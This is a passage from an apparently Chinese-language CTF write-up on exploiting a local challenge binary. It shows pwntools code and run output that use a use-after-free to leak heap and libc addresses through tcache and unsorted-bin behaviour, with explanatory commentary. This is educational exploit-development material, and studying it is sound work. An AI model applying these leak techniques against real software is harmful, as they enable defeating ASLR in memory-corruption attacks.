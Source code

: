 ```python
delete(0)
delete(1)

set_name(2, 0x18, b'a')
trigger_event(2)
r.recvuntil(b'Name: ')
leak_heap = u64(r.recv(6).ljust(0x8, b'\x00'))
heap_base = leak_heap - 0x261
log.success(f'Leak heap address = {hex(leak_heap)}')
log.success(f'Heap base address = {hex(heap_base)}')
```

```bash
$ python exp.py
[+] Starting local process './chal': pid 5092

[+] Leak heap address = 0x564bd16ca261
[+] Heap base address = 0x564bd16ca000
[*] Switching to interactive mode

EVENT: get event named "Default Event"!
Invalid command
1. register entity
2. delete entity
3. set name
4. trigger event
choice: $
```

* 這一連串的command意思是他先註冊三個entity
    ![圖片](https://hackmd.io/_uploads/S1kJGysSa.png)
* Delete 前兩個entiti的時候，第一個8 bytes是next free chunk address，第二個8 bytes是key，此時我們就可以想辦法把這個heap address leak出來，從這邊可以看得出來
    ![圖片](https://hackmd.io/_uploads/Hky5fJira.png)
* 設定entity 2的name，要加這一段的原因是它會malloc一個0x20的chunk，此時他會從tcache中找，也就是直接找到==0x55e5a806b2e0==，而他在free的時候並沒有把chunk的內容洗掉，所以裡面還是會有chunk address，所以從下面的結果來看，entity 2的name已經指向==0x000055e5a806b2e0==，而這個地址的東西沒有洗掉，所以我們可以用trigger event的printf，leak出其中的內容
    ![圖片](https://hackmd.io/_uploads/HkYmVkjBT.png)
* 此時我們就可以把接收到的address，和vmmap中得到的heap base address扣掉拿到offset之後做後續的利用
    ![圖片](https://hackmd.io/_uploads/BkcoVksST.png)
    ![圖片](https://hackmd.io/_uploads/BkKZBkoST.png)
    ![圖片](https://hackmd.io/_uploads/SJG7rJjHT.png)

### 如何用UAF leak libc address?
主要的大方向是設法讓chunk進入unsorted bin中，這樣他就會儲存有關libc的資訊，之後我們再像前面的UAF方法一樣，把值leak出來
```python
## Leak libc address
for i in range(0x9):
    register(i)
    set_name(i, 0x88, b'a')

for i in range(0x9):
    delete(i)
    
for i in range(0x8):
    register(i)
    set_name(i, 0x88, b'a')

trigger_event(7)
r.recvuntil(b'Name: ')
leak_libc = u64(r.recv(6).ljust(0x8, b'\x00'))
```